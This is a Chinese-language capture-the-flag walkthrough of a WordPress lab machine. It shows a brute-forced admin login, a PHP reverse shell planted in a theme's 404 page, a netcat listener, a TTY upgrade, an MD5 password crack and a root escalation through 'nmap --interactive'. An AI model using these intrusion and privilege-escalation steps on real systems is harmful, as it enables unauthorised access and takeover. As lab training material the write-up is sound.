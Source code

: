![image-20220421173017142](/assets/img/image-20220421173017142.png)

爆破获得密码ER28-0652

![image-20220421173022151](/assets/img/image-20220421173022151.png)

使用elloit/ER2-0652登录，下来可用主题、插件方式获得shell，我们选择主题方式，直接修改404页面内容为php反弹shell

![image-20220421173029742](/assets/img/image-20220421173029742.png)

本地使用nc监听4444端口

`nc -nvlp 4444`

访问404页面，触发反弹shell `https://192.168.182.130/wp-admin/404.php`

![image-20220421173035619](/assets/img/image-20220421173035619.png)

在/home/robot下，发现key2,但是没有权限访问，访问另个一文件`password.raw-md5`，应该是robot账号的密码，md5解密得到密码

![image-20220421173044684](/assets/img/image-20220421173044684.png)

![image-20220421173049635](/assets/img/image-20220421173049635.png)

切换到robot用户，这里需要先获得tty 

`python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm`

![image-20220421173056882](/assets/img/image-20220421173056882.png)

切换成功后可以查看文件内容

按照常规套路，最后一个key需要获得root权限查看

使用`find / -perm -u=s 2>/dev/null` 查看有suid的命令

![image-20220421173101929](/assets/img/image-20220421173101929.png)

发现nmap，可以用来提权，先查看版本，5.20之前

![image-20220421173107321](/assets/img/image-20220421173107321.png)

使用

`nmap --interactive
!sh`

提权

![image-20220421173112288](/assets/img/image-20220421173112288.png)

提权成功，在/root/下获得key

完成
